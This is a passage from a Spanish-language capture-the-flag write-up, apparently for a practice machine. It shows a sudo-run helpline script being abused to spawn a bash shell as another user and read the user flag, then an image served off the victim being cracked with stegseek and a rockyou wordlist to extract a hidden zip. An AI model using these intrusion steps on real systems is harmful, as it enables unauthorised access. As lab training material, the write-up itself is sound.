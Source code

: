 ```bash
$ sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

/bin/bash     
/bin/bash
id 
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
ls
local.txt
cat local.txt
{USER-FLAG: ????????????????????}
```

Obtenemos así la flag del usuario

Desde este punto no podemos hacer mucho más por lo que volvemos al directorio /var/www que es en el que por norma general se encuentran los contenidos interesantes de las explotaciones web.

En este punto listamos el contenido de alguno de los archivos y conseguimos información sobre una imagen. En hacker.php vemos:

```bash
<center>
        <img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
        <h1 style="background-color:red;">You have reached this far. </h2>
        <h1 style="background-color:black;">Look in the dark! You will find your
 answer</h1>
```

Vamos entonces a descargarnos la imagen. Nos creamos un servidor con:

> python3 -m http.server 8000

```bash
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.8.4.179 - - [19/Oct/2022 18:34:39] "GET / HTTP/1.1" 200 -
10.8.4.179 - - [19/Oct/2022 18:34:39] code 404, message File not found
10.8.4.179 - - [19/Oct/2022 18:34:39] "GET /favicon.ico HTTP/1.1" 404 -
10.8.4.179 - - [19/Oct/2022 18:34:41] "GET /hacker-with-laptop_23-2147985341.jpg HTTP/1.1" 200 -
```

Entramos en la $IP-VICTIMA:8000 y la descargamos.

Con stegseek intentamos extraer la información:

```bash
❯ stegseek hacker-with-laptop_23-2147985341.jpg /home/jorge/Descargas/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "backup.zip".
[i] Extracting to "hacker-with-laptop_23-2147985341.jpg.out".
```

Nos los exporta a un archivo comprimido, lo descomprimimos con 7z:
